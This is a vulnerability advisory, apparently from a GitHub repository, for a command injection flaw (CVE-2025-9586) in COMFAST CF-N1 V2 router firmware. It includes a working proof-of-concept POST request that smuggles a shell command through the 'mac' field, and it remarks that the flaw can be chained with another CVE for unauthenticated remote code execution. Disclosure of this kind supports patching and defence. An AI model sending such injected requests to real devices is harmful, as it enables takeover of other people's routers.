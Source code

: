 # COMFAST CF-N1 V2 V2.6.0 Command Injection in `wireless_device_dissoc`
PS:

1.Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

2.This vulnerability can be combined with CVE-2022-45724 to achieve unauthenticated RCE.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `wireless_device_dissoc` API (`/usr/bin/webmgnt`, function `sub_415F54`). Attackers can inject arbitrary commands via the `mac` parameter, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![PoC Result: Command Execution Proof](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=wireless_device_dissoc`

*   **Vulnerability**: Command Injection

*   **CVE ID**: CVE-2025-9586

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_415F54` function handling the `wireless_device_dissoc` configuration. Disassembly analysis shows that the user-controlled `mac` parameter is unsanitized and directly incorporated into system commands via string formatting functions before execution by `system_0`.

Key code flow:



1.  User input (including `mac` and `ifname`) is parsed via `blobmsg_parse_0` and extracted as configuration parameters.

2.  The `mac` parameter is inserted into a command string (likely related to wireless device disassociation) using unvalidated string concatenation.

3.  The constructed command is executed via `system_0` without input sanitization, allowing injection of arbitrary commands through delimiters like `;`, `&&`, or `#`.

This direct use of unfiltered input in command construction enables attackers to break out of the intended command context and execute malicious code.



![Disassembly Snippet: Vulnerable Code Path](./imgs/1.png)



![Command Construction Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Command to Write Test File



```
POST /cgi-bin/mbox-config?method=SET&section=wireless_device_dissoc  HTTP/1.1
Host: cflogin.cn
Content-Length: 89
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{"ifname":"127.0.0.1",  "mac":"; echo wireless_device_dissoc  > /www-comfast/test.txt #"}
```



*   **Notes**: The vulnerable parameter is `mac`, exploited using `;` to terminate the original command context and `#` to comment out remaining syntax.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify command execution.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "wireless\_device\_dissoc", confirming successful injection.



![PoC Execution Result](./imgs/3.png)
